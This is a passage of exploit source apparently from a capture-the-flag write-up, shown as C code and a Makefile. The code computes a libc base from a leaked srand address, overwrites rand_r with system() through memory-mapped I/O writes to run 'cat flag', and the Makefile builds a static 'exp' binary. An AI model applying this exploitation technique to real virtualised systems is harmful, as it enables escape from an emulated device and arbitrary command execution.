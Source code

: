 ```c
     printf("[+] srand ==> %#llx\n", srand_addr);
    uint64_t libc_base = srand_addr - srand_libc;
    printf("[+] libc_base ==> %#llx\n", libc_base);
    uint64_t system_addr = libc_base + system_libc;
    printf("[+] system ==> %#llx\n", system_addr);
    fuck_write(69<<2, system_addr&0xffffffff);//fuck rand_r
    mmio_write(3<<2,0);//system("cat flag");
    return 0;

}

```

Makefile

```makefile
exp:
	gcc exp.c -m32 -static -o exp && strip exp
clean:
	rm exp
```


